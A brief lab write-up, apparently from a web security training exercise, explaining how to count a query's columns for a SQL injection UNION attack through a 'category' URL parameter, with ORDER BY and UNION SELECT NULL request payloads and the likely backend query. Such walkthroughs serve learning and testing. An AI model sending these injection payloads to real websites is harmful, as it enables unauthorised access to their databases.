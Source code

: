 # SQL injection UNION attack, determining the number of columns returned by the query

In-band SQLi in the ‘category’ query parameter.

First, determine the number of columns returned by the query using the ORDER BY method:

```http
GET /filter?category=Accessories'+ORDER+BY+3--
```

Next, use a UNION injection to return additional rows containing null values:

```http
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL,NULL--
```

The query is likely:

```sql
SELECT id, name, price FROM products WHERE category='Accessories';
```
